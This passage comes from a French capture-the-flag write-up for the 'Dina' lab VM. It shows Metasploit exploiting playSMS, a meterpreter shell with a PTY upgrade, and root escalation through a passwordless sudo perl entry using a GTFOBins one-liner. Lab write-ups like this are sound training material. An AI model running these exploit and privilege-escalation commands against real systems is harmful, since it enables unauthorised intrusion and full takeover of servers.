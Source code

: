 ```console

msf exploit(multi/http/playsms_uploadcsv_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 1693 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ uname -a
uname -a
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
```

L'objectif est désormais de devenir root sur le serveur Dina. L'utilisateur ```www-data``` est autorisé à exécuter la commande ```/usr/bin/perl``` via sudo sans mot de passe. Un petit tour sur l'excellent site [__GTFOBins__](https://gtfobins.github.io/gtfobins/perl/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec perl.

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
	
	
$ sudo /usr/bin/perl -e 'exec "/bin/bash";'


id
uid=0(root) gid=0(root) groups=0(root)

wc -c /root/flag.txt
639 /root/flag.txt
```

## Conclusion

Plutôt sympa, cette VM. Si l'utilisation de Metasploit permet un gain de temps considérable, il est tellement plus plaisant et gratifiant de décortiquer et de comprendre l'exploit sous-jacent, avec un shell à la clé et sans __meterpreter__ ni __msfvenom__. Le passage user-root est toujours dans la même veine des précédents CTF — une mauvaise gestion des privilèges d'administration via le fichier ```/etc/sudoers``` — mais cela dit, ce n'est pas du ```(ALL) ALL``` cette fois-ci. Merci beaucoup à [Touhid Shaikh](https://touhidshaikh.com/) pour sa création !
